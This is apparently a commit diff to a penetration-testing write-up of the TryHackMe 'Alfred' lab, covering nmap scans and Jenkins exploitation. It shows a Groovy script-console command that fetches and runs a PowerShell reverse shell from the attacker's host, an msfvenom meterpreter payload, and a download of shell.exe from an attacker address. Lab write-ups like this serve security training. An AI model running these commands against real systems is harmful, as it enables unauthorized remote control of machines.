

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/alfred.md, in a window 1280 px wide and 1400 px high, scrolled down 322 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Initial commit

````diff
--- a/source/docs/thm/alfred.md
+++ b/source/docs/thm/alfred.md
@@ -12,11 +12,57 @@
 
 	nmap -Pn -p- <IP address target machine> -oN portscan
 
+    # Nmap 7.92 scan initiated Thu Sep 29 17:51:07 2022 as: nmap -Pn -p- -oN portscan 10.10.184.145
+    Nmap scan report for 10.10.184.145
+    Host is up, received user-set (0.043s latency).
+    Scanned at 2022-09-29 17:51:07 BST for 112s
+    Not shown: 65532 filtered tcp ports (no-response)
+    PORT     STATE SERVICE       REASON
+    80/tcp   open  http          syn-ack ttl 127
+    3389/tcp open  ms-wbt-server syn-ack ttl 127
+    8080/tcp open  http-proxy    syn-ack ttl 127
+
+    Read data files from: /usr/bin/../share/nmap
+    # Nmap done at Thu Sep 29 17:52:59 2022 -- 1 IP address (1 host up) scanned in 112.75 seconds
+
 Three open ports: Two http (websites?) on port 80 and 8080, and a Remote Desktop service on port 3389.
 
-Run an all scan on the three open ports:
+Run an `-A` scan on the three open ports:
 
 	nmap -Pn -T4 -A -p80,3389,8080 <IP address target machine> -oN servicescan
+
+    # Nmap 7.92 scan initiated Thu Sep 29 17:57:00 2022 as: nmap -Pn -T4 -A -p80,3389,8080 -oN servicescan 10.10.184.145
+    Nmap scan report for 10.10.184.145
+    Host is up (0.042s latency).
+
+    PORT     STATE SERVICE    VERSION
+    80/tcp   open  http       Microsoft IIS httpd 7.5
+    | http-methods:
+    |_  Potentially risky methods: TRACE
+    |_http-title: Site doesn't have a title (text/html).
+    |_http-server-header: Microsoft-IIS/7.5
+    3389/tcp open  tcpwrapped
+    | ssl-cert: Subject: commonName=alfred
+    | Not valid before: 2022-09-28T16:47:01
+    |_Not valid after:  2023-03-30T16:47:01
+    8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
+    | http-robots.txt: 1 disallowed entry
+    |_/
+    |_http-title: Site doesn't have a title (text/html;charset=utf-8).
+    |_http-server-header: Jetty(9.4.z-SNAPSHOT)
+    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
+    Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%), Microsoft Windows Server 2008 R2 or Windows 8.1 (89%)
+    No exact OS matches for host (test conditions non-ideal).
+    Network Distance: 2 hops
+    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
+
+    TRACEROUTE (using port 8080/tcp)
+    HOP RTT      ADDRESS
+    1   42.93 ms 10.9.0.1
+    2   43.62 ms 10.10.184.145
+
+    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+    # Nmap done at Thu Sep 29 17:57:34 2022 -- 1 IP address (1 host up) scanned in 35.11 seconds
 
 A version for Microsoft IIS, a possible `robots.txt` on port 8080 and something called Jetty.
 
@@ -38,7 +84,7 @@
 The Jenkins documentation gives me two possible ways of Remote Code Execution:
 
 1. Click "Project" to get into the prebuilt project, then click  "Configure" on the left. Scrolling down, there is a window that allows for executing Windows batch commands.
-2. Jenkins also comes with a "Script Console" administrative tool, which allows authenticated users to run scripts using Apache [Groovy](http://www.groovy-lang.org/), a Java-syntax-compatible object-oriented programming language for the Java platform. On the mainpage, go to Project Management, scroll down below the warnings, and click [script console](https://www.jenkins.io/doc/book/managing/script-console/) from the list.
+2. Jenkins also comes with a "Script Console" administrative tool, which allows authenticated users to run scripts using Apache [Groovy](http://www.groovy-lang.org/), a Java-syntax-compatible object-oriented programming language for the Java platform. On the mainpage on the left, click on "Manage Jenkins", scroll down below the warnings, and click [script console](https://www.jenkins.io/doc/book/managing/script-console/) from the list.
 
 A PowerShell command to execute a reverse shell might work. "Nishang" contains a lot of reverse shell payloads and more.
 
@@ -48,7 +94,7 @@
 I decided not to copy and just host the entire Nishang Shells directory, by starting a server in
 `/usr/share/nishang/Shells`:
 
-	python3 -m http.server 80
+	# python3 -m http.server 80
 
 Option 1: Execute windows batch command window
 
@@ -69,18 +115,18 @@
 In the script console:
 
 ```text
-print "powershell IEX(New-Object Net.WebClient).downloadString('http://<IP address attack machine>:<http-server port>/Invoke-PowershellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port <netcat listener port>".execute().text
+print "powershell IEX(New-Object Net.WebClient).downloadString('http://<IP address attack machine>:<http-server port>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port <netcat listener port>".execute().text
 ```
 Get the flag:
 
-	PS  C:\Users\bruce\Desktop> cat users.txt
+    PS C:\Program Files (x86)\Jenkins> cd ..\..\Users\bruce\Desktop
+	PS C:\Users\bruce\Desktop> cat users.txt
 
 ## Switching shells
 
 Generate payload:
 
-	msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP address attack machine> LPORT=<Listen port on attack machine> -f exe -o shell.exe
-
+	# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP address attack machine> LPORT=<Listen port on attack machine> -f exe -o shell.exe
 
 Set up a Python web server to host the reverse shell:
 
@@ -89,7 +135,6 @@
 Download the shell.exe into the Target machine using Jenkins:
 
 	PS  C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://[ATTACKER IP]:8888/shell.exe','shell.exe')"
-
 
 In a new terminal, start Metasploit, select the multi handler module, set the payload type, LHOST and LPORT options to match the payload shell, and run the listener:
 
````
Also changed, not shown: other parts of source/docs/thm/alfred.md (+2 -2 lines).
